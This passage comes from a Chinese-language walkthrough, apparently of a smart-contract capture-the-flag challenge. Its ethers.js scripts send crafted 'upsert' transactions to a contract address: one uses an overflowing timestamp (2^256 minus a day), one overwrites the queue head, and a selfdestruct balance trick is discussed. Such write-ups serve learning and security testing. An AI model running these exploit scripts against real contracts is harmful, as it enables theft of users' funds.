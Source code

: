    ```javascript
   async function main(){
     const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
     const wallet = new ethers.Wallet(process.env.PK,provider)
     let ABI = ["function upsert(uint256 index, uint256 timestamp)"]
     let iface = new ethers.utils.Interface(ABI)
     const ONE_DAYS_IN_SECONDS = 24 * 60 * 60
     const timestamp = ethers.BigNumber.from(`2`)
                           .pow(`256`)
                           .sub(ONE_DAYS_IN_SECONDS)
     const tx = {
       to : "0xcC48087C1b44f57Fdaa8A721b3d3D89bd913C9D5",
       data: iface.encodeFunctionData("upsert", [1,timestamp]),
       value: 1,
     }
     const hash = await wallet.sendTransaction(tx)
     await hash.wait()
     console.log(hash.hash)

     // const position =  ethers.BigNumber.from(ethers.utils.keccak256("0x0000000000000000000000000000000000000000000000000000000000000000")).add(ethers.BigNumber.from(3))
     // console.log(position)

     // const end2 = await provider.getStorageAt("0xcC48087C1b44f57Fdaa8A721b3d3D89bd913C9D5", position)
     // console.log(end2)
   }
   ```

2. 这时候 我们需要纠正过 head 的值, 因此发起第二笔 upsert tx: $index=2, timestamp=0, msg.value=1wei$, 这个时候, head 的值等于 0, **queue 里面存了两个元素**, 第一个元素的 amount=1E, timestamp=now+50years, 第二个元素的 amount=2WEI, timestamp 等于$0$ , address(this)=1E+1WEI+1WEI

   > 因为 msg.value=1WEI, 所以 queue 里面 是两个元素的长度, 把第二个元素重写了
   >
   > 如果 msg.value=2WEI 的话, 索然不会重写元素, 但是提取的时候, 会发现提取不了, 因为余额不够了
   >
   > 如果不重写, 需要的余额是 1E+2WEI+3WEI, 而账上余额只会是 1E+1WEI+1WEI=1E+2WEI, 少了 3WEI
   >
   > ❤️ 第二种思路在这 ✔️, 即不重写第二个元素, 缺少 3WEI 的情况下, 用上面我们提到的 selfstruct 函数 , 把 3WEI 送过去, 也能完成.

   ```javascript
   async function main(){
     const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
     const wallet = new ethers.Wallet(process.env.PK,provider)
     let ABI = ["function upsert(uint256 index, uint256 timestamp)"]
     let iface = new ethers.utils.Interface(ABI)
     const tx = {
       to : "0xcC48087C1b44f57Fdaa8A721b3d3D89bd913C9D5",
       data: iface.encodeFunctionData("upsert", [2,0]),
       value: 1,
     }
     const hash = await wallet.sendTransaction(tx)
     await hash.wait()
     console.log(hash.hash)

     // const position =  ethers.BigNumber.from(ethers.utils.keccak256("0x0000000000000000000000000000000000000000000000000000000000000000")).add(ethers.BigNumber.from(3))
     // console.log(position)

     // const end2 = await provider.getStorageAt("0xcC48087C1b44f57Fdaa8A721b3d3D89bd913C9D5", position)
     // console.log(end2)
   }
   ```

